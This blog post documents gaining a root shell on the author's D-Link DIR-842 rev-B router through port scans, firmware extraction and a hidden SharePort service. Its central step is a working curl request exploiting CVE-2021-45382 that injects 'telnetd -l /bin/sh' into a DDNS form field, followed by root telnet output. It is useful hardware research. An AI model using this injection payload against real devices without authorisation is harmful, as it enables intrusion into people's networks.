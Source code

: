 +++
title = "D-LINK DIR-842 Rev-B privilege escalation"
description = "A quick blog post on how to enable telnet your REV-B device"
tags = [
"howto",
"research",
"firmware",
"shell",
]
date = "2022-06-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"firmware",
"howto",
"research",
"shell",
]
image = "cover.png"

+++


In this quick blog post we'll see how to enable Telnet on your DIR-842 rev-b
<!--more-->


# Some background

There are known vulnerabilities on D-Link's DIR-842, but they are about the [rev-C models](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10184).

The rev-B are running a different portal AFAIK, and no exploit for code execution was found during research.

## A first portscan

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:09 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

Other than the usual web interface nothing special to see.

## Firmware extraction

As usual `binwalk` is used on the last firmware.

We're looking for web files and endpoints not mentioned in the web interface itself.

The first candidate we found was

`http://192.168.0.1/SharePort.html`

![Home](/dlink/dir-842-shareport.png)

This feature shouldn't be present as the device has no USB ports whatsoever.

*So we enabled it :)*

## Exploring SharePort

After enabling the Web File Access, we run another port scan :

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:15 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

A new port has been opened, revealing another interface :

![Home](/dlink/dir-842-shareport-open.png)

Adding users and trying them doesn't bring any results as most requests are not implemented.

## Switching to CVE-2021-45382

What is familiar though, is the call to `misc.ccp`, which is made on that portal's login page.

A quick research dig bring up a result for this specific D-Link portal, where `ddns_check.ccp` is vulnerable to
command injection.

Kudos to [eh-easyhacks](https://eh-easyhacks.blogspot.com/2022/04/cve-2021-45382.html) for the details on the CVE !

You're going to need :

- Be authenticated on port 80, session opened
- `User-Agent` set
- `Referer` set

```shell
curl -kv 'http://192.168.240.1/ddns_check.ccp' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36' \
  -H 'Referer: http://192.168.240.1:8181/login.asp' \
  --data-raw 'ccp_act=doCheck&ddnsHostName=;telnetd -l /bin/sh;&ddnsUsername=a&ddnsPassword=b'
```


## Voila

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:23 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0027s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
23/tcp   open  telnet
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address:  10:62:FF:FF:5A:FF (D-Link International)

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

$ telnet 192.168.240.1
Trying 192.168.240.1...
Connected to 192.168.240.1.
Escape character is '^]'.

# ps auxwww
  PID USER       VSZ STAT COMMAND
    1 root      1388 S    init
    2 root         0 SW<  [kthreadd]
    3 root         0 SW<  [ksoftirqd/0]
    4 root         0 SW<  [events/0]
    5 root         0 SW<  [khelper]
    8 root         0 SW<  [async/mgr]
   52 root         0 SW<  [kblockd/0]
   72 root         0 SW   [pdflush]
   73 root         0 SW<  [kswapd0]
  636 root         0 SW<  [mtdblockd]
  667 root         0 SWN  [jffs2_gcd_mtd2]
  683 root      1004 S    resetd
  710 root      1392 S    -/bin/sh
  711 root     15272 S    ncc2
 1072 root     15272 S    ncc2
 1073 root     15272 S    ncc2
 1074 root     15272 S    ncc2
 1075 root     15272 S    ncc2
 1076 root     15272 S    ncc2
 1077 root     15272 S    ncc2
 1078 root     15272 S    ncc2
 1079 root     15272 S    ncc2
 1080 root     15272 S    ncc2
 1083 root      1384 S    klogd
 1108 root      1392 S    crond
 5294 root      1384 S    syslogd -L -s 16
 5714 root      1104 S    dnsmasq -o -u root -i br0 -z br0 -a 192.168.240.1 -x
 5726 root      1136 S    lld2d br0
 5729 root      1372 S    mDNSResponderPosix -f /var/tmp/mdns_br0.conf -b -P /v
 7698 root      1616 S    proxy br0 54088 0 /var/tmp/proxy.conf
 7699 root      1624 S <  proxy br0 54088 0 /var/tmp/proxy.conf
 7924 root      1092 S    radvd -C /var/tmp/radvd_br0.conf -p /var/run/radvd_br
 8303 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
 8309 root      1660 S    lanmapd2 br0
 8380 root      1536 S    wscd -start -both_band_ap -c /var/wsc.conf -w wlan0 -
 8383 root      1040 S    iwcontrol wlan1 wlan0
 8398 root      1484 S    pppoe-relay -S eth1 -C br0
 8407 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
13574 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
13577 root      3668 S    jjhttpd -m RUN_HTTPS -d /wa_www -P /var/run/jjhttpd_3
17394 root      3668 S    jjhttpd -m RUN_HTTPS -d /www -P /var/run/jjhttpd_1.pi
17532 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
24434 root      1388 S    telnetd -l /bin/sh
24755 root      1392 S    /bin/sh
24762 root      1388 R    ps auxwww
```
